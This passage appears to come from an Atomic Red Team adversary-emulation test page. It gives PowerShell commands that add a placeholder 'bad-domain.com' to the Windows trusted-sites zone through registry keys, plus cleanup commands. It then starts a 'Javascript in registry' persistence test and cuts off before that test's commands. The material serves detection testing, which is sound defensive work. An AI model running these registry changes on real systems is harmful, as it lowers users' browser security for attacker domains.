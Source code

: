 https://www.blackhat.com/docs/us-17/wednesday/us-17-Dods-Infecting-The-Enterprise-Abusing-Office365-Powershell-For-Covert-C2.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** cf447677-5a4e-4937-a82c-e47d254afd57





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| bad_domain | Domain to add to trusted site zone | string | bad-domain.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$key= "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\#{bad_domain}\"
$name ="bad-subdomain"
new-item $key -Name $name -Force
new-itemproperty $key$name -Name https -Value 2 -Type DWORD;
new-itemproperty $key$name -Name http  -Value 2 -Type DWORD;
new-itemproperty $key$name -Name *     -Value 2 -Type DWORD;
```

#### Cleanup Commands:
```powershell
$key = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\#{bad_domain}\"
Remove-item  $key -Recurse -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Javascript in registry
Upon execution, a javascript block will be placed in the registry for persistence.
Additionally, open Registry Editor to view the modified entry in HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings.

**Supported Platforms:** Windows


**auto_generated_guid:** 15f44ea9-4571-4837-be9e-802431a7bfae






#### Attack Commands: Run with `powershell`! 
